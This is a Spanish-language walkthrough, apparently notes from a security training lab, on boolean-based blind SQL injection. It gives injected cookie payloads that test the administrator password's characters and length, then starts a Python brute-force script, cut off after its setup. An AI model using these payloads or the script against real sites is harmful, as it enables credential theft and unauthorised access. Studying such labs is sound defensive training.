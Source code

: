 Consulta para averiguar la contraseña de un usuario SQLI blind: `rU9oSAoIqZqeG06b' AND (SELECT substring(username,1,1) FROM users WHERE username='administrator')='a'-- -`

Esta consulta, lo que hace es evalúa el valor de la `cookie` (que es verdadero) y que el primer carácter del usuario `administrator` ("a") sea igual a la letra "a" (verdadero, "a" = "a"). Esta consulta nos va a permitir mediante un script automatizado (reemplazando el `username` por `password`), ir probando los distintos caracteres del abecedario y determinar los que coincidan con los caracteres de la contraseña del usuario `administrator`.

![[Pasted image 20250723215831.png]]
![[Pasted image 20250723215846.png]]

Ahora, queremos averiguar la longitud de la contraseña, lo haremos con la siguiente consulta:

Consulta para averiguar la longitud de la contraseña de un usuario SQLI blind: `' AND (SELECT substring(username,1,1) FROM users WHERE username='administrator' and length(password)>8)='a'-- -`

![[Pasted image 20250723230216.png]]
![[Pasted image 20250723230239.png]]

Vemos que la contraseña del usuario `administrator` tiene una longitud mayor a 8, ya que la línea `length(password)>8` ha devuelto, verdadero. 

![[Pasted image 20250723230709.png]]
![[Pasted image 20250723230239.png]]

Vemos que la contraseña tiene más de 19 caracteres, probaremos con 20.

![[Pasted image 20250723230846.png]]
![[Pasted image 20250723210422.png]]

La contraseña, tiene más de 19 caracteres, pero no más de 20, por lo tanto la longitud de la contraseña es 20.
vamos a crearnos un script en python, llamado `sqli_conditional_error.py`que nos permita fuzzear los caracteres de la contraseña de `administrator`.
## Código del Script

```python
#!/usr/bin/env python3
from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#ctrl + C
signal.signal(signal.SIGINT, def_handler)

page_url = input("Ingrese la url: ")
caracteres = str(string.digits + string.ascii_lowercase + string.ascii_uppercase) #todos los caracteres
cookie = input("Ingrese la cookie: ")
sessionHash = input("Ingrese el hash de session: ")

def makeRequest():
    password = ''

    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

```